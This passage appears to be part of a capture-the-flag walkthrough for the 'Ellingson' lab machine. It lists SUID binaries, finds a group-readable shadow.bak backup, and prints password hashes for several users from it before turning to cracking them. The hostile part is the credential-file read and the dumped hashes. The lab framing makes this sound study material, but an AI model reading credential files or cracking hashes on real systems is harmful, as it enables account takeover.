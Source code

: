 We have a strange setuid binary, but i can't execute it as hal user. let's try to found an other user's credentials.
```
[+] SUID/SGID Files and Directories
    -rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
    -rwxr-sr-x 1 root mail 10952 Nov  7  2017 /usr/bin/dotlock.mailutils
    -rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
    -rwxr-sr-x 1 root tty 14328 Jan 17  2018 /usr/bin/bsd-write
    -rwsr-xr-x 1 root root 22520 Jul 13  2018 /usr/bin/pkexec
    -rwxr-sr-x 1 root ssh 362640 Feb 10  2018 /usr/bin/ssh-agent
    -rws------ 1 root root 59640 Jan 25  2018 /usr/bin/passwd
    -rwxr-sr-x 1 root crontab 39352 Nov 16  2017 /usr/bin/crontab
    -rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
    -rwxr-sr-x 1 root shadow 22808 Jan 25  2018 /usr/bin/expiry
    -rwsr-xr-x 1 root root 18056 Mar  9 21:04 [/usr/bin/garbage]
```

With some enumeration i found in "/var/backups" a shadow.bak file with read right for group "adm", and the user hal belongs of this group. 

![shadow_rights](https://github.com/roughiz/Ellingson-walktrough/blob/master/shadow.png)

##### Nota: 
Think to revert machine before exploit, some users change files rights !!!
```
$ cat shadow.bak
...
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::

```
Here we have some users hashes, so the next step is to crack theses hashes.
